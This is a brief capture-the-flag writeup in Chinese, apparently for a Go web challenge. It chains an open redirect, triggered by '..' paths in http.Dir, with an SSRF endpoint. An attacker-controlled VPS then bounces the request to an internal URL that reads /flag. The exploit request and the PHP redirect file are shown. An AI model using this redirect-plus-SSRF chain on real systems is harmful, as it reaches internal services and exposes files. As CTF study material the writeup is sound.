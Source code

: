 ## this is a writeup


http.Dir("/dir").open()
可以打开文件 或者 目录，如果open函数的参数为. 或者 .. 返回对象也会被认为是一个目录

于是我们可以根据fileMidderware中的内容，传入
GET //www.com/.. HTTP/1.1

56行代码判断..为路径且不以/结尾，所以302 返回//www.com/../造成任意302

再通过vul控制器ssrf 配合 即可攻击url
虽然我们无法输入url参数，但302不限次数，先跳到自己的vps，在302到带参数的内网地址即可获取flag

index.php(vps)
```
<?php

header("Location: http://127.0.0.1/index.php?file=/flag");
?>
```php

请求http://challenge.ip:port//vps.ip/.. 即可（用burp，有些浏览器会自动删除..